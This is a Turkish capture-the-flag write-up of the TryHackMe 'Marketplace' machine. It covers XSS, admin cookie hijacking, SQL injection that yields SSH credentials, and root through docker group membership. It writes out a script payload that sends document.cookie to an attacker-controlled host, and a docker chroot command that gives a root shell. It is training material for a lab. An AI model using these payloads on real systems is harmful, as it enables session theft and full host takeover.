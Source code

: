 # The_marketplace-CTF
TRYHACKME "themarketplace" ctf çözümü

İlk olarak Nmap aracını kullanarak bir tarama işlemi gerçekleştiriyoruz.
![NmapScann](https://user-images.githubusercontent.com/103064152/219755795-092321da-348a-4223-982e-3dc5010b6585.png)

80 port'tun açık olduğunu görünce Web sitesine gidiyoruz.
![Web page](https://user-images.githubusercontent.com/103064152/219757122-f2356006-cbc4-47a4-b469-9ea12c46c7ec.png)

Sign Up 'dan kayıt oluyoruz.
![login](https://user-images.githubusercontent.com/103064152/219757306-5494984e-52b8-4bf3-b0a0-76bb448bc1e8.png)

New list giderek yeni bir liste oluşturuyoz.Burda olası "xss" açığını kontrol ediyoruz.
![xss tespiti](https://user-images.githubusercontent.com/103064152/219757679-46bbcc13-d7b1-42b5-9b74-50f6d937d45d.png)

![alert](https://user-images.githubusercontent.com/103064152/219757786-d4e477b0-e5fb-4bfe-92c1-dfd14dd9b859.png)

Xss açığını tespit ettikden sonra admin cokkie'si almak için bir javascript kodu injecte ediyoruz.

XSS Payload:<script>document.location='http://(Yourİp):8000/XSS/grabber.php?c='+document.cookie</script>

![Cokkie](https://user-images.githubusercontent.com/103064152/219758354-19dc0247-9f4d-4304-9926-17f2b2c66a13.png)

Daha sonra admin cokkiesini kendi cokkie ile değiştiriyoruz.Ve admin oluyoruz.

![Admin Panel](https://user-images.githubusercontent.com/103064152/219758676-8e9876f6-143c-4551-9c1e-6bbe24319757.png)

Url kısmında SQL injection olabileceğinden şüpelendim. 
![Sql injection tespiti](https://user-images.githubusercontent.com/103064152/219758988-504be2db-0249-4bfe-809f-e0a22c14d4bb.png)

Url kısmına bir SQL injection tespiti için birşeyler denedim ve sonuç olarak SQL injection açığı olduğunu tespit ettim.
Daha sonra database ismini öğrene bilmek için bir sql sorgusu yazdım ve sonuç olarak bunları aldım.
![Sql injection](https://user-images.githubusercontent.com/103064152/219759836-15f9428d-94c7-4ba8-8bdf-d77e20efdfa4.png)

Farklı SQL sorguları çalıştırarak. Database kayıtlı bir Mesaj buldum:
![Mesajj](https://user-images.githubusercontent.com/103064152/219760700-c2fa2cc8-680b-4541-b428-dad35a22d397.png)

Mesaj'dan aldığım password ve username ile ssh ile sisteme login oldum.
![SSH login](https://user-images.githubusercontent.com/103064152/219761161-4da37e7f-bc5e-4cec-b482-1e376833a7ad.png)

ls -la çalıştırdım user.txt okudum ve 2.flag almış oldum.

!YETKİ YÜKSELTME:
 klasik olarak direk sudo -l komutunu çalıştırdım.
 ![Sudo -l](https://user-images.githubusercontent.com/103064152/219761997-8f2fe23e-cc1c-4b36-be6a-34d72abf9f2b.png)
 
 /opt/backups dosyasına giderek  backups.sh diye bir dosyanın nasıl çalıştığını anladım. Daha sonra farklı komutlar kullanarak diğer kullanıcı olarak kendime bir shell code yazdım.
 
![Michangel olma](https://user-images.githubusercontent.com/103064152/219762835-a2880e9c-604b-44e0-87c4-d2f6633778d6.png)


![id](https://user-images.githubusercontent.com/103064152/219764431-0126c652-e7db-494c-bd2c-9be7c525582c.png)
Kullanıcının docker grupana dahil olduğunu gördüm
Daha sonra "docker image" komutunu çalıştırdım.

![docker image](https://user-images.githubusercontent.com/103064152/219765211-81de0623-ad77-4b37-a0c5-8b29b0cf94bc.png)

docker run -v /:/mnt --rm -it alpine chroot /mnt sh bu komutu kullanarak root oldum.
![root](https://user-images.githubusercontent.com/103064152/219765433-06572f4a-40ec-4265-80f9-def7dbf0c3ee.png)




